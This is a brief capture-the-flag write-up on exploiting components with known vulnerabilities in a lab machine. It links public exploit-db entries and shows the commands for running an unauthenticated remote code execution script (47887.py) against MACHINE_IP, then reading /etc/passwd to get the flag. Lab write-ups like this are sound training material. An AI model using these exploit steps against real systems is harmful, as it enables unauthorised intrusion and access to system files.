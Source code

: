 # [Day 9] Components With Known Vulnerabilities
> - Occasionally, you may find that the company/entity that you're pen-testing is using a program that already has a well documented vulnerability.
> - For example, let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan,\
you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an\
unauthenticated remote code execution(RCE) exploit, and even better you can find an exploit already made on [exploit-db](https://www.exploit-db.com/exploits/41962).

## Writeup
Read the supporting material from **[Task 28]** to **[Task 29]** to know about Components with known vulnerabilities.

**[Task 29]**
 - You can either use [exploit-db](https://www.exploit-db.com/exploits/41962) or [Online Book Store 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/47887) as exploit script. But, both works good.
 - Run the exploit by 
 
        $ python 47887.py https://MACHINE_IP
        RCE $ whoami
        www-data
        RCE $ wc -c /etc/passwd
 - You will get the number of characters are in /etc/passwd as 4 digits. That's the flag!  
